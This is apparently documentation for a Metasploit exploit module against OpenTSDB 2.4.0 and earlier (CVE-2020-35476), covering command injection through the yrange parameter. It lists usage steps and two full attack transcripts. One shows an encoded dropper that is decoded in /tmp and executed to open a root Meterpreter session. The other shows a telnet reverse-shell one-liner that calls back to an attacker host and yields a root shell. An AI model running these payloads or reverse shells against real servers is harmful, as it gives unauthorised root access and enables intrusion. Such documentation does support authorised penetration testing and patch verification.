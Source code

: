 ## Vulnerable Application
This module exploits an unauthenticated command injection vulnerability in the yrange parameter
in OpenTSDB through 2.4.0 (CVE-2020-35476) in order to achieve unauthenticated remote code execution as the root user.

The module first attempts to obtain the OpenTSDB version via the api. If the version is 2.4.0 or lower,
the module performs additional checks to obtain the configured metrics and aggregators.
It then randomly selects one metric and one aggregator and uses those to instruct the target server to plot a graph.
As part of this request, the yrange parameter is set to the payload, which will then be executed by the target if the latter is vulnerable.

This module has been successfully tested against OpenTSDB version 2.3.0.

## Installation Information
OpenTSDB is open source software. Vulnerable releases are available [here](https://github.com/OpenTSDB/opentsdb/releases).
Documentation and installation instructions are available [here](http://opentsdb.net/docs/build/html/index.html).

## Verification Steps
1. Start msfconsole
2. Do: `use exploit/linux/http/opentsdb_yrange_cmd_injection`
3. Do: `set RHOSTS [IP]`
4. Do: `set LHOST [IP]`
5. Do: `set SRVHOST [IP]`
6. Do: `exploit`

## Options
### TARGETURI
The base path to OpenTSDB. The default value is `/`.

## Targets
```
Id  Name
--  ----
0   Automatic (Unix In-Memory)
1   Automatic (Linux Dropper)
```

## Scenarios
### OpenTSDB 2.3.0 - Linux target
```
msf6 exploit(linux/http/opentsdb_yrange_cmd_injection) > options

Module options (exploit/linux/http/opentsdb_yrange_cmd_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.1.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      4242             yes       The target port (TCP)
   SRVHOST    10.10.1.30       yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0
                                         .0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to OpenTSDB
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.1.30       yes       The listen address (an interface may be specified)
   LPORT  1312             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Automatic (Linux Dropper)


msf6 exploit(linux/http/opentsdb_yrange_cmd_injection) > run

[*] Started reverse TCP handler on 10.10.1.30:1312
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is OpenTSDB version 2.3.0
[*] Identified 25 configured metrics. Using metric MessagePrePublishingEvents.min
[*] Identified 31 configured aggregators. Using aggregator sum
[*] Generated command stager: ["echo -n f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAVIAECDQAAAAAAAAAAAAAADQAIAABAAAAAAAAAAEAAAAAAAAAAIAECACABAjPAAAASgEAAAcAAAAAEAAAagpeMdv341NDU2oCsGaJ4c2Al1toCgoHJWgCAAUgieFqZlhQUVeJ4UPNgIXAeRlOdD1oogAAAFhqAGoFieMxyc2AhcB5vesnsge5ABAAAInjwesMweMMsH3NgIXAeBBbieGZsmqwA82AhcB4Av/huAEAAAC7AQAAAM2A>>'/tmp/XeJKe.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/JIulg' < '/tmp/XeJKe.b64' ; chmod +x '/tmp/JIulg' ; '/tmp/JIulg' & sleep 2 ; rm -f '/tmp/JIulg' ; rm -f '/tmp/XeJKe.b64'"]
[*] Transmitting intermediate stager...(106 bytes)
[*] Sending stage (1017704 bytes) to 10.10.1.1
[*] Command Stager progress - 100.00% done (773/773 bytes)
[*] Meterpreter session 4 opened (10.10.1.30:1312 -> 10.10.1.1:47720) at 2022-11-24 19:27:06 +0000

meterpreter > getuid
Server username: root
```

### OpenTSDB 2.3.0 - Unix target
```
msf6 exploit(linux/http/opentsdb_yrange_cmd_injection) > options

Module options (exploit/linux/http/opentsdb_yrange_cmd_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.1.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      4242             yes       The target port (TCP)
   SRVHOST    10.10.1.30       yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0
                                         .0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to OpenTSDB
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.1.30       yes       The listen address (an interface may be specified)
   LPORT  1337             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Unix In-Memory)


msf6 exploit(linux/http/opentsdb_yrange_cmd_injection) > run

[+] sh -c '(sleep 3851|telnet 10.10.1.30 1337|while : ; do sh && break; done 2>&1|telnet 10.10.1.30 1337 >/dev/null 2>&1 &)'
[*] Started reverse TCP double handler on 10.10.1.30:1337
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is OpenTSDB version 2.3.0
[*] Identified 25 configured metrics. Using metric MessagePrePublishingEvents.mean_rate
[*] Identified 31 configured aggregators. Using aggregator max
[*] Executing the payload
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo q08IVzJKPKz8soea;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "q08IVzJKPKz8soea\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 3 opened (10.10.1.30:1337 -> 10.10.1.1:52370) at 2022-11-24 19:24:06 +0000

id
uid=0(root) gid=0(root) groups=0(root)
```
